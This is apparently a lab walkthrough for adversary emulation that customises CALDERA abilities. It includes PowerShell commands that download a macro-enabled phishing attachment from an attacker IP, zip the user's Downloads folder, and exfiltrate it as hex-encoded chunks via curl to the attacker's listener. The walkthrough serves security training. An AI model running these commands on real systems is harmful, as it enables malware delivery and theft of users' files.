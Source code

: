 ### **Modifying Existing Abilities**

Since the victim machine dose not have an internet connection, we mush host the malicious file on our attacking machine for the victim to download. 

View the ability `Download Macro-Enabled Phishing Attachment` 

![image.png](attachment:da7e4a9f-b64c-476f-bd03-e37bc14b8b4a:image.png)

![image.png](attachment:fb01115f-176c-46ed-9c31-af70ae7b1e24:image.png)

And change the URL to our attack IP machine and the listening port. Then save the ability

```powershell
$url = 'http://10.10.118.21:8080/PhishingAttachment.xlsm'; [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm
```

![image.png](attachment:ca612fa2-ea8c-4daa-b27c-cb51337fb202:image.png)

The second ability to customise is  `Zip a Folder with PowerShell for Staging in Temp`

![image.png](attachment:a1240a72-4961-4d5b-af89-ad3c72e307af:image.png)

change the commands to this:

```powershell
# Attack Command
Compress-Archive -Path $env:USERPROFILE\Downloads -DestinationPath $env:TEMP\exfil.zip -Force

# Cheanup command
Remove-Item -Path $env:TEMP\exfil.zip -ErrorAction Ignore

```

![image.png](attachment:7afaa905-5113-4a45-bf8d-3bc40d9586e0:image.png)

### Creating a Custom Ability

the ability `Exfiltrating Hex-Encoded Data Chunks over HTTP` does not exist, so we must create a new ability to complete the emulation activity. The goal is to execute a command that exfiltrates the collected data from the `Zip a Folder with PowerShell for Staging in Temp` ability.

To do this, we will use the following PowerShell commands to hex-encode the data, split it into chunks, and send it to the existing HTTP listener (running on port 8080) from the AttackBox instance. 

```powershell
$file="$env:TEMP\exfil.zip"; $destination="http://10.10.118.21:8080/"; $bytes=[System.IO.File]::ReadAllBytes($file); $hex=($bytes|ForEach-Object ToString X2) -join ''; $split=$hex -split '(\S{20})' -ne ''; ForEach ($line in $split) { curl.exe "$destination$line" } echo "Done exfiltrating the data. Check your listener."

```

![image.png](attachment:8ae49b8b-8adb-4bca-84b8-a341697dc184:image.png)
